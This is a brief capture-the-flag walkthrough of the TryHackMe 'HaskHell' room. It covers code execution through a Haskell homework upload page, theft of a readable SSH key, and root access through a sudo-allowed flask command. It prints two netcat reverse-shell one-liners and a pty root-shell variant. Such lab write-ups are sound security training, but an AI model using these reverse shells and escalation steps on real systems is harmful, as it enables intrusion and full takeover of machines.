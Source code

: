 # HaskHell

https://tryhackme.com/room/haskhell

A simple room, with a few new techs. Fun since I write in F#, a language in the same vein as Haskell, sometimes.

1. A port scan revealed 22 and 5001. On 5001 was a website asking users to submit their haskell assignments.
2. The link to send haskell files on the homework page didn't work, but a dirb on the ip revealed /submit which did
3. Testing with the following file proved I had RCE (code is from rosetta code [here](https://rosettacode.org/wiki/Execute_a_system_command#Haskell)):

```haskell
import System.Cmd
 
main = system "ls"
```

4. The following connected a reverse shell (as the user 'flask'):

```haskell
import System.Cmd
 
main = system "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.5.4 4444 >/tmp/f"
```

5. In the /home/prof directory was a .ssh with a readably id_rsa. I extracted this to ssh in as prof.
6. Prof had  `(root) NOPASSWD: /usr/bin/flask run`. After a bit of trial and error around how this command worked, I got a root reverse shell via:

    a. creating a file called shell.py with the following contents:

    ```python
    import os
    os.system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.112.79 4444 >/tmp/f")
    ```

    b. calling `export FLASK_APP=shell.py`

    c. running `sudo /usr/bin/flask run`

Easy, but interesting!

**BONUS:** for step six, rather than catching a root reverse shell, changing shell.py to contain `import pty; pty.spawn('/bin/bash')` works as well, spawing an instant root shell.
